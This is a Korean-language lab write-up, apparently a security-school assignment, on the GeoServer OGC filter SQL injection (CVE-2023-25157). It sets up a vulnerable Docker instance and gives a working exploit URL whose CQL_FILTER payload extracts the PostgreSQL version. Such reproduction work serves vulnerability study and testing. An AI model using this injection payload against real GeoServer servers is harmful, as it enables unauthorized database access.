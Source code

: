 # GeoServer OGC Filter SQL Injection (CVE-2023-25157)

> 화이트햇 스쿨 3기(35반) -  [손예은](https://github.com/ye-nni/)
>> https://github.com/ye-nni/kr-vulhub/tree/main/geoserver/CVE-2023-25157
</br> 해당 문서는 최종 파일이 아닙니다. 과제 제출 기한 이내에 수정될 수 있으며, 최종 파일은 Pull requests 및 재제출 예정입니다.
</br>

### 요약
- GeoServer는 Java로 작성된 오픈 소스 소프트웨어 서버로, 지리공간 데이터를 보고, 편집하고, 공유할 수 있는 기능을 제공합니다.
- GeoServer는 지리정보시스템(GIS) 데이터베이스, 웹 기반 데이터, 개인 데이터세트 등 다양한 소스의 지리공간 데이터를 배포하는 유연하고 효율적인 솔루션으로 설계되었습니다.
- 2.22.1 및 2.21.4 이전 버전에서는 OGC(Open Geospatial Consortium) 표준에서 정의한 필터 및 함수 표현식에서 SQL Injection 문제가 발견되었습니다.

References:
- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>
</br>

### 환경 구성 및 실행
다음 명령어로 테스트 환경에서 GeoServer instance 2.22.1을 실행합니다:
```
docker compose up -d
```
서버가 시작되면 `http://your-ip:8080/geoserver`에서 기본 페이지를 볼 수 있습니다.

</br>

### 테스트
취약점을 익스플로잇하기 전에 먼저 PostGIS 데이터 저장소가 포함된 워크스페이스를 찾아야 합니다. Vulhub의 GeoServer 인스턴스에는 이미 PostGIS 데이터 저장소가 있습니다:
- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

아래 간단한 URL을 통해 서버를 익스플로잇 할 수 있습니다:
```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```
</br>

### 결과
![](result1.JPG) 
![](result2.JPG)
![](result3.png)

위 사진을 통해 PostgreSQL 버전은 SQL Injection을 통해 GeoServer에서 검색(retrieve)된 것을 알 수 있습니다.
